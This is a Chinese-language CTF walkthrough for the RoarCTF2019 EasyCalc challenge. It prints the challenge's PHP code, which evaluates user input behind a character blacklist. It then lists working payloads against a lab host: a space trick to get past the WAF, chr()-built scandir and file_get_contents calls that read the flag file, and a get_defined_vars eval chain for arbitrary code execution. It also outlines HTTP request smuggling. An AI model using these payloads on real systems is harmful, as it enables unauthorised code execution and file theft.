





# RoarCTF2019-EasyCalc1

## 解法一：

1、首先打开是一个计算器界面，然后查看源码

```
<!--I've set up WAF to ensure security.-->
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

2、这里显示使用了waf，然后有啊一个calc.php文件，直接url访问

```
http://node5.buuoj.cn:26596/calc.php/
```

3、很明显是一个命令执行语句，传参是num，并且过滤了一些字符，特别是过滤了单双引号。

```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

4、由于过滤了单双引号我们尝试使用无参数RCE的payload：

查看当前目录下文件：

```
http://node5.buuoj.cn:26596/calc.php?num=print_r(scandir(current(localeconv())));
```

5、如果我们的传参被过滤了应该会显示"whar are you want to do?"，但是这里显示这个：



所以猜测是被防火墙拦截了。

6、这题的重点，空格绕过waf，只需要在传参?后加一个空格即可绕过waf

```
http://node5.buuoj.cn:26596/calc.php? num=print_r(scandir(current(localeconv())));
```

成功回显当前目录下文件



7、当前目录下没有发现flag文件，所以继续查看根目录下文件，这里因为没有过滤函数参数，所以比正常的无参数rce更简单一点，我们可以使用chr函数来构造文件名，他可以将ascii码转换为字符，而且可以拼接为字符串。

```
查看当前目录下文件
http://node5.buuoj.cn:26596/calc.php? num=print_r(scandir(chr(46)));

查看根目录下文件
http://node5.buuoj.cn:26596/calc.php? num=print_r(scandir(chr(47)));
```

注意：这里'.'的ascii码值为46、而'/'的值为47。

8、发现根目录下有一个f1agg 文件，推测是flag文件，使用文件读取函数读取该文件即可



```
我们可以使用file_get_contents()函数读取文件，参数就用chr()函数将文件名的每一个字符拼接即可
这里把file_get_contents函数换成highlight_file或者show_source都行

http://node5.buuoj.cn:26596/calc.php? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103));
```

拿到flag。



---

## 解法二：

这里可以利用全局变量rce来得到flag，因为这里没有过滤include以及eval函数

由于代码只对 num 参数的值做了过滤，因此 nss 参数理论上可以造成任意代码执行。

但是这里过滤的函数太多了，但是include还能用，我们直接包含f1agg文件

```
http://node5.buuoj.cn:26596/calc.php? num=1;eval(end(pos(get_defined_vars())))&nss=include("/f1agg");
```

## 绕过waf的方式

### 空格绕过

第一种就是前面使用的空格绕过，即在传参?后加一个空格

## http 请求走私

绕过waf的方式还有一种，http请求走私，



原理就是在请求头中输入两个Content-Length头，使得前端无法识别，直接将整个包完全发给了后端。但这样还是要接受后端的黑名单过滤，所以 num 传参还是不能为所欲为。
